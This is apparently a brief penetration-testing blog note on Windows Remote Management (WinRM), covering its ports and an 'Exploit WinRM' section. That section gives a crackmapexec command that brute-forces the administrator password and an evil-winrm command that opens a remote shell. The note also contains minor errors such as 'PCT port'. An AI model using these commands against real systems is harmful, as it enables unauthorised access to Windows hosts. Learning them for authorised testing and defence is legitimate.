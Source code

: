 ```yaml
---
title: 'WinRM'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'winrm']
---
```


## Information

- Windows Remote Management is a remote management protocol that can be used to remote access with windows system over HTTP(S).

- Microsoft implemented WinRM in to Windows in order to make life easier for sysadmins.

- Remote access and intect with local network.

- Manage and configure windows systems remotely.

- Uses PCT port 5985 and 5986 (HTTPS).

## Exploit WinRM

- Implements access control and security for communication between systems through various forms of authentication.

- crackmapexec to perform a brute-force on WinRM.

- Ruby script called evil-winrm to obtain a command shell session.

```bash
crackmapexec winrm target -u administrator -p /usr/share/.../unix_passwd.txt

# port 5985
evil-winrm.rb -u administrator -p 'secretpass' -i target


```
